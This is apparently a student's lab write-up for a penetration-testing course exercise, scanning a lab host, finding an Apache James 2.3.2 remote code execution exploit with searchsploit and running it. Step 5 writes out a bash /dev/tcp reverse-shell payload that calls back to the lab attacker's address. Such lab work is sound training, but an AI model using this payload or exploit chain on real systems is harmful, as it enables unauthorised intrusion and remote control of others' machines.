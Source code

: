 # 14.3.1 Putting It All Together
#### Exercises

_(To be performed on your own Kali and Ubuntu lab client machines - Reporting is required for these exercises)_

**1.  Connect to your dedicated Linux client and start the vulnerable Apache James service using the _/usr/local/james/bin/run.sh_ script.**

This is straightforward, we just need to run the aformentioned script to start the Apache James service.
![[Start_james.png]]


**2.  Enumerate the target using port scanning utilities and use information from the banners and Internet searches to determine the software running on the machine.**

We can start our nmap script with the following command:
`sudo nmap 192.168.243.44 -p- -sV -vv --open --reason`

We receive the following:
![[nmap_services.png]]
Our internet search shows that we are running Apache James 2.3.2
![[james_search.png]]


**3.  Use the _searchsploit_ tool to find exploits for this version on the online resources mentioned in this module.**

Using Searchsploit we find a number of exploits including a very promising Remote Code Execution in the form of a python script. Let's try this script out.
![[searchsploit_james.png]]
**4.  Launch the exploit and verify that the payload is executed upon logging in to the machine.**

We simply run the payload with the required IP argument. 
![[exploit_run.png]]
We can see upon login that our exploit has executed.
![[exploited_proof.png]]

And we can see our proof.txt file.
![[exploited_proof2.png]]

**5.  Attempt to modify the _payload_ variable in order to get a reverse shell on the target machine.**

In order to receive a reverse shell we just need to modify the initial exploit and change the line stating "touch /root/proof.txt" to a reverse shell. 
`payload = 'bash -i >& /dev/tcp/192.168.119.243/9001 0>&1'`

And we see our reverse connection
![[course notes/images/14_locating_public_exploits/rev_shell.png]]